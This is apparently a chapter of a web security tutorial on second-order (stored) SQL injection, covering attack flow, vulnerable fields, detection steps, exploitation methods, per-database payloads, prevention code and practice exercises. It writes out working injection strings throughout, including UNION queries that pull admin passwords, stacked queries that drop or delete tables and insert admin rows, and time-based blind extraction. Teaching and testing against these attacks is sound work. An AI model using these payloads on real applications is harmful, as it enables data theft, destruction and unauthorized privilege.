




# 12 - Second-Order SQL Injection

## Understanding Second-Order Injection

Second-order SQL injection, also known as **stored SQL injection**, is a type of attack where the malicious payload is stored in the database first, then executed later when the stored data is retrieved and used in another SQL query.

### First-Order vs Second-Order

| Aspect        | First-Order               | Second-Order                     |
| ------------- | ------------------------- | -------------------------------- |
| **Timing**    | Immediate execution       | Delayed execution                |
| **Storage**   | Direct execution          | Payload stored first             |
| **Detection** | Easier (instant feedback) | Harder (requires trigger action) |
| **Example**   | Login form injection      | User registration → Admin view   |

### Why It's Dangerous

- **Bypasses input validation** that only checks at entry point
- **Harder to detect** during security testing
- **Trust exploitation** - stored data considered "safe"
- **Privileged execution** - often triggers in admin/administrative functions

## How Second-Order Injection Works

### Attack Flow



**Step-by-Step Flow:**

1. Attacker submits malicious payload
2. Payload stored in database (appears "safe")
3. Normal user/admin retrieves stored data
4. Stored payload executed in new SQL query
5. Database compromise

### Real-World Example

**Scenario:** User registration system with admin review

**Step 1 - Registration (Payload Storage):**

```
Username: admin'--
Email: attacker@evil.com
```

**Backend Query:**

```sql
INSERT INTO users (username, email) VALUES ('admin''--', 'attacker@evil.com')
```

**Step 2 - Admin Review (Payload Execution):**

```sql
SELECT * FROM users WHERE username = 'admin'--' AND active = 1
```

**Result:** `--` comments out `AND active = 1`, showing inactive accounts including admin!

## Common Attack Vectors

### Attack Vector Flowchart



### 1. User Profile Fields

**Vulnerable Fields:**

- Username
- Display name
- Bio/About me
- Email address (if displayed)
- Profile picture filename

**Example:**

```
Username: ' OR 1=1--
```

When admin searches users:

```sql
SELECT * FROM users WHERE username LIKE '%' OR 1=1--%'
```

### 2. Comment/Review Systems

**Stored comment:**

```
Great product!'); DROP TABLE reviews;--
```

**When displayed in admin panel:**

```sql
SELECT * FROM reviews WHERE product_id = 1 AND content = 'Great product!');
DROP TABLE reviews;--'
```

### 3. Search History/Logs

**Attack:**

```
Search query: ' UNION SELECT password FROM admin_users--
```

**When admin views search analytics:**

```sql
SELECT query, COUNT(*) FROM search_logs WHERE query = ''
UNION SELECT password FROM admin_users--'
```

### 4. File Upload Metadata

**Filename injection:**

```
File: report'; DELETE FROM files;--.pdf
```

**When file listing retrieved:**

```sql
SELECT * FROM files WHERE filename = 'report'; DELETE FROM files;--.pdf'
```

## Detection Techniques

### Detection Workflow



### Step 1: Identify Storage Points

Look for features that store user input:

- [ ] User registration
- [ ] Profile updates
- [ ] Comments/reviews
- [ ] Contact forms with database storage
- [ ] File uploads with metadata storage
- [ ] Search history logging
- [ ] Audit logs with user input
- [ ] Configuration settings stored in DB

### Step 2: Test Storage with Safe Payloads

**Test payloads (safe for storage):**

```
Test'"
Test--
Test' OR '1'='1
Test'; SELECT 1;--
```

**Check if stored exactly as entered:**

```sql
-- Check stored value
SELECT username, email FROM users WHERE id = [your_test_id]
```

### Step 3: Trigger the Stored Data

Identify functions that retrieve and use stored data:

- [ ] Admin user management
- [ ] User search functionality
- [ ] Report generation
- [ ] Analytics/Statistics
- [ ] Data export features
- [ ] Email notifications using stored data

### Step 4: Monitor for Execution

**Watch for:**

- Unexpected query results
- Database errors in logs
- Unusual data in admin panels
- Application crashes when viewing certain records

## Exploitation Methods

### Exploitation Techniques Overview



### Method 1: Comment Injection

**Payload:**

```
Username: admin'--
```

**Effect when retrieved:**

```sql
SELECT * FROM users WHERE username = 'admin'--' AND role = 'admin'
-- Comments out role check
```

### Method 2: Quote Escaping

**Payload:**

```
Username: \' OR 1=1--
```

**Storage (escaped):**

```sql
INSERT INTO users VALUES (1, '\'' OR 1=1--', ...)
```

**Execution when retrieved:**

```sql
SELECT * FROM users WHERE username = '\'' OR 1=1--' ...
```

### Method 3: Multi-Query Injection

**Payload:**

```
Email: valid@email.com'; INSERT INTO admin VALUES ('hacker');--
```

**Requires:** Database supports stacked queries

### Method 4: Union-Based Second-Order

**Payload stored:**

```
Username: ' UNION SELECT username,password FROM admin_users--
```

**Executed in search:**

```sql
SELECT username, email FROM users
WHERE username = '' UNION SELECT username,password FROM admin_users--'
```

## Advanced Techniques

### Bypassing Input Validation

**Scenario:** Username field limited to alphanumeric only

**Attack via Email field:**

```
Username: john123
Email: john@example.com'--
```

**When admin queries by email pattern:**

```sql
SELECT * FROM users WHERE email LIKE '%john@example.com'--%'
```

### Time-Based Blind Second-Order

**Stored payload:**

```
Username: ' OR IF(ASCII(SUBSTRING((SELECT password FROM admin LIMIT 1),1,1))=97,SLEEP(5),0)--
```

**Triggers delayed response when admin views user list**

### Stored Boolean-Based Blind

**Payload:**

```
Username: ' OR (SELECT CASE WHEN (SELECT COUNT(*) FROM admin) > 0 THEN 1 ELSE 0 END)--
```

**Observe different result sets when admin searches**

## Database-Specific Examples

### MySQL

**Storage:**

```sql
INSERT INTO users (username) VALUES ('admin'' AND 1=1--')
```

**Execution:**

```sql
SELECT * FROM users WHERE username = 'admin' AND 1=1--' AND active=1
```

### PostgreSQL

**Storage:**

```sql
INSERT INTO users (username) VALUES ($$admin' AND 1=1--$$)
```

**Execution:**

```sql
SELECT * FROM users WHERE username = 'admin' AND 1=1--' AND active=true
```

### MSSQL

**Storage:**

```sql
INSERT INTO users (username) VALUES ('admin''; WAITFOR DELAY ''0:0:5''--')
```

**Execution:**

```sql
SELECT * FROM users WHERE username = 'admin'; WAITFOR DELAY '0:0:5'--' AND active=1
```

### Oracle

**Storage:**

```sql
INSERT INTO users (username) VALUES ('admin'' AND 1=1--')
```

**Execution:**

```sql
SELECT * FROM users WHERE username = 'admin' AND 1=1--' AND active=1
```

## Prevention and Mitigation

### 1. Parameterized Queries Everywhere

**Not just at input, but also when retrieving:**

```php
// VULNERABLE - dynamic query when retrieving
$user = $db->query("SELECT * FROM users WHERE username = '$stored_username'");

// SECURE - parameterized on retrieval
$stmt = $db->prepare("SELECT * FROM users WHERE username = ?");
$stmt->bind_param("s", $stored_username);
$stmt->execute();
```

### 2. Output Encoding

**Encode data when displaying, even from database:**

```php
$username = htmlspecialchars($user['username'], ENT_QUOTES, 'UTF-8');
echo "Username: $username";
```

### 3. Principle of Least Privilege

**Different DB users for different operations:**

- Web app user: SELECT, INSERT only on necessary tables
- Admin panel user: Separate credentials with appropriate permissions
- Never use sa/root for application queries

### 4. Input Validation at Storage and Retrieval

**Validate both entry points:**

```php
// When storing
if (!preg_match('/^[a-zA-Z0-9_]+$/', $username)) {
    die("Invalid username");
}

// When using in queries
if (!preg_match('/^[a-zA-Z0-9_]+$/', $stored_username)) {
    die("Invalid stored username");
}
```

### 5. Stored Procedure Usage

```sql
CREATE PROCEDURE GetUserByUsername
    @Username VARCHAR(50)
AS
BEGIN
    SELECT * FROM users WHERE username = @Username
END
```

## Detection Checklist for Security Testing

### For Penetration Testers

- [ ] Identify all user input storage points
- [ ] Map data flow from storage to retrieval
- [ ] Test special characters in all stored fields
- [ ] Check for encoding/escaping at storage vs retrieval
- [ ] Test retrieval in different contexts (admin, export, reports)
- [ ] Look for time delays in admin panel (time-based blind)
- [ ] Check if HTML encoding affects query construction
- [ ] Test with different user roles (user vs admin retrieval)
- [ ] Review error logs for SQL errors in admin functions
- [ ] Verify parameterized queries on both storage and retrieval

### Automated Detection

```python
# Example detection approach
def test_second_order(base_url):
    # Step 1: Store payloads
    payloads = [
        "test'",
        'test"',
        "test--",
        "test' OR '1'='1",
        "test'; SELECT 1;--"
    ]

    stored_ids = []
    for payload in payloads:
        # Register with payload
        user_id = register_user(payload)
        stored_ids.append(user_id)

    # Step 2: Trigger retrieval
    for user_id in stored_ids:
        # Access admin panel
        # Monitor for SQL errors or time delays
        response = access_admin_user_view(user_id)
        analyze_response(response)
```

## Practice Exercises

### Exercise 1: Basic Second-Order

**Setup:**

- Application with user registration
- Admin panel that lists all users

**Task:**
Register with username: `admin'--`
Then access admin panel and observe if all users are displayed (bypassing active filter)

### Exercise 2: Email Field Injection

**Setup:**

- Registration with email field
- Admin search by email domain

**Task:**
Register with email: `test@example.com' OR 1=1--`
Trigger via admin email domain search

### Exercise 3: Blind Second-Order

**Setup:**

- Stored comment system
- Admin comment review page

**Task:**
Store time-based payload and detect via admin page response time

## Key Takeaways

1. **Second-order injection stores payload first, executes later**
2. **Harder to detect than first-order** - requires understanding full data flow
3. **Often triggers in privileged contexts** (admin panels, reports)
4. **Prevention requires parameterized queries at retrieval**, not just storage
5. **Trust no data** - even from your own database
6. **Input validation needed at both storage AND retrieval points**

## Next Step

Continue to [13 - Alternative Context Injection](13-Alternative-Context-Injection.md) for JSON, XML, and header-based injection.
